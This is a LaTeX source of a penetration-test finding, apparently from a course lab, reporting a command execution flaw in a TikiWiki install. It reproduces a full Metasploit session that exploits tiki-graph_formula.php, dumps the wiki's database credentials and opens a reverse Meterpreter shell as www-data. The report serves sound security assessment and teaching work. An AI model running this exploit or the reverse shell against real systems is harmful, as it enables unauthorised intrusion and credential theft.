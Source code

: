 \documentclass{article}
\begin{document}
\newpage
\section{Tikiwiki command execution flaw}

\begin{description}
  \item[Severity] High
  \item[Impact] www-data level access to full system.
  \item[Affected Resources/System] http://ultimatelamp.sait230.ca/tikiwiki/
  \item[Summary] Tikiwiki command execution flaw allows users to run arbitrary code within the target host.
\end{description}

\paragraph{Tikiwiki}

The version of tikiwiki running on ultimatelamp.sait230.ca has a command execution
flaw in the tiki-graph\_formula.php page. This vulnerability can be used to
gain system level access to the host.

Metasploit has a module that can be used to gain access to the host via
a reverse meterpreter shell. Below is a meterpreter session detailing
how I was able to gain a shell on the ultimatelamp.sait230.ca host

\begin{lstlisting}[language=Bash,basicstyle=\tiny]
msf > use exploit/unix/webapp/tikiwiki_graph_formula_exec 
msf  exploit(tikiwiki_graph_formula_exec) > set RHOST ultimatelamp.sait230.ca
RHOST => ultimatelamp.sait230.ca
msf  exploit(tikiwiki_graph_formula_exec) > exploit

[*] Started reverse handler on 10.2.1.30:4444 
[*] Attempting to obtain database credentials...
[*] The server returned            : 200 OK
[*] Server version                 : Apache/2.0.54 (Ubuntu) PHP/5.0.5-2ubuntu1.2
[*] TikiWiki database informations : 

db_tiki   : mysql
dbversion : 1.9
host_tiki : localhost
user_tiki : tikiwiki
pass_tiki : dolphin
dbs_tiki  : tikiwiki

[*] Attempting to execute our payload...
[*] Sending stage (39217 bytes) to 10.2.1.3
[*] Meterpreter session 1 opened (10.2.1.30:4444 -> 10.2.1.3:33606) at 2016-02-16 19:44:30 -0500

meterpreter > getpid
Current pid: 8640
meterpreter > getuid
Server username: www-data (33)
\end{lstlisting}
\end{document}
